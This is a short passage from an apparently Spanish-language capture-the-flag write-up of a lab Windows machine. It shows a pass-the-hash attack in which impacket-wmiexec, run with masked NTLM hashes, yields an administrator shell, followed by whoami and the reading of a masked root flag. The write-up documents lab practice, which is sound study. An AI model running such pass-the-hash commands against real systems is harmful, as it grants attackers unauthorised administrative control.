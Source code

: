 - Y bueno ahora que tenemos el **hash** vamos a obtener un **shell** empleando **Pass the Hash** .

## Shell as administrator

- Y podemos en la misma ruta de siempre vemos la flag.

```bash
➜  content impacket-wmiexec administrator@10.10.121.174 -hashes ********************************:********************************
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
retro\administrator
C:\>type C:\Users\administrator\Desktop\root.txt
VL{************************}
C:\>
```
